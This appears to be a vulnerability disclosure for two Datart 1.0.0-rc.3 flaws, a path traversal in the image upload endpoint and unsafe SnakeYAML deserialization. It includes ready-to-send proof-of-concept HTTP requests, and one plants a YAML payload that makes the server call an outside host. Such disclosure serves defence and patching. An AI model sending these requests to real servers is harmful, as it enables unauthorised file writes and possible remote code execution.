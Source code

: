# CVE-2025-56815
Datart 1.0.0-rc.3 is vulnerable to Directory Traversal in the POST /viz/image interface, since the server directly uses MultipartFile.transferTo() to save the uploaded file to a path controllable by the user, and lacks strict verification of the filename.

```java
POST /api/v1/files/viz/image?ownerType=DASHBOARD&ownerId=66822c13a9bc4381923456c11339497e&fileName=../../../../../../../../tmp/1 HTTP/1.1
Host: test.com
Accept-Language: zh-CN
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySInMdoLRiubl32BW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Length: 4646

------WebKitFormBoundarySInMdoLRiubl32BW
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: image/jpeg

xxxxx
------WebKitFormBoundarySInMdoLRiubl32BW--
```

# CVE-2025-56816
Datart 1.0.0-rc. 3 is vulnerable to Directory Traversal.  The configuration file handling of the application allows attackers to upload arbitrary YAML files to the config/jdbc-driver-ext. yml path.  The application parses this file using SnakeYAML's unsafe load() or loadAs() method without input sanitization.  This allows deserialization of attacker-controlled YAML content, leading to arbitrary class instantiation.  Under certain conditions, this can be exploited to achieve remote code execution (RCE).

```
POST /api/v1/files/viz/image?ownerType=DASHBOARD&ownerId=66822c13a9bc4381923456c11339497e&fileName=../../../../../config/jdbc-driver-ext.yml HTTP/1.1
Host: test.com
Accept-Language: zh-CN
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySInMdoLRiubl32BW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Length: 4646

------WebKitFormBoundarySInMdoLRiubl32BW
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: image/jpeg

{!!java.net.URL ["http://test.eyes.sh/"]: 1}
------WebKitFormBoundarySInMdoLRiubl32BW--
```
